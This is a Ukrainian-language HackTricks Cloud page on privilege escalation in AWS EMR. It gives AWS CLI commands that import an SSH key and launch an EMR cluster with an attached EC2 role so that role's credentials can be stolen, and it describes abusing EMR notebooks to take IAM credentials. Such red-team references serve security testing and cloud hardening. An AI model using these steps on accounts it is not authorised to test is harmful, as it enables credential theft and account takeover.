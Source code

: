 # AWS - Підвищення привілеїв в EMR

<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити вашу **компанію в рекламі на HackTricks** або **завантажити HackTricks у форматі PDF**, перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) **і** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **репозиторіїв**.

</details>

## EMR

Додаткова **інформація про EMR** в:

{% content-ref url="../aws-services/aws-emr-enum.md" %}
[aws-emr-enum.md](../aws-services/aws-emr-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `elasticmapreduce:RunJobFlow`

Атакувальник з цими дозволами може **запустити новий кластер EMR, приєднуючи ролі EC2** та спробувати вкрасти їх облікові дані.\
Зверніть увагу, що для цього вам потрібно **знати деякий приватний ключ ssh, імпортований в обліковий запис** або імпортувати один, і мати можливість **відкрити порт 22 на головному вузлі** (це можливо зробити за допомогою атрибутів `EmrManagedMasterSecurityGroup` та/або `ServiceAccessSecurityGroup` всередині `--ec2-attributes`).
```bash
# Import EC2 ssh key (you will need extra permissions for this)
ssh-keygen -b 2048 -t rsa -f /tmp/sshkey -q -N ""
chmod 400 /tmp/sshkey
base64 /tmp/sshkey.pub > /tmp/pub.key
aws ec2 import-key-pair \
--key-name "privesc" \
--public-key-material file:///tmp/pub.key


aws emr create-cluster \
--release-label emr-5.15.0 \
--instance-type m4.large \
--instance-count 1 \
--service-role EMR_DefaultRole \
--ec2-attributes InstanceProfile=EMR_EC2_DefaultRole,KeyName=privesc

# Wait 1min and connect via ssh to an EC2 instance of the cluster)
aws emr describe-cluster --cluster-id <id>
# In MasterPublicDnsName you can find the DNS to connect to the master instance
## You cna also get this info listing EC2 instances
```
Зверніть увагу, як **роль EMR** вказується в `--service-role`, а **роль ec2** вказується в `--ec2-attributes` всередині `InstanceProfile`. Однак ця техніка дозволяє лише вкрасти облікові дані ролі EC2 (оскільки ви будете підключатися через ssh), але не роль IAM EMR.

**Потенційний вплив:** Підвищення привілеїв до службової ролі EC2, вказаної.

### `elasticmapreduce:CreateEditor`, `iam:ListRoles`, `elasticmapreduce:ListClusters`, `iam:PassRole`, `elasticmapreduce:DescribeEditor`, `elasticmapreduce:OpenEditorInConsole`

З цими дозволами зловмисник може перейти до **консолі AWS**, створити блокнот і отримати доступ до нього для вкрадення ролі IAM.

{% hint style="danger" %}
Навіть якщо ви прикріпите роль IAM до екземпляра блокнота, у моїх тестах я помітив, що я зміг вкрасти керовані облікові дані AWS, а не облікові дані, пов'язані з роллю IAM`.
{% endhint %}

**Потенційний вплив:** Підвищення привілеїв до керованої ролі AWS arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

### `elasticmapreduce:OpenEditorInConsole`

Лише з цим дозволом зловмисник зможе отримати доступ до **Jupyter Notebook та вкрасти роль IAM**, пов'язану з ним.\
URL блокнота: `https://<notebook-id>.emrnotebooks-prod.eu-west-1.amazonaws.com/<notebook-id>/lab/`

{% hint style="danger" %}
Навіть якщо ви прикріпите роль IAM до екземпляра блокнота, у моїх тестах я помітив, що я зміг вкрасти керовані облікові дані AWS, а не облікові дані, пов'язані з роллю IAM`.
{% endhint %}

**Потенційний вплив:** Підвищення привілеїв до керованої ролі AWS arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити вашу **компанію рекламовану в HackTricks** або **завантажити HackTricks у форматі PDF**, перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github репозиторіїв.

</details>
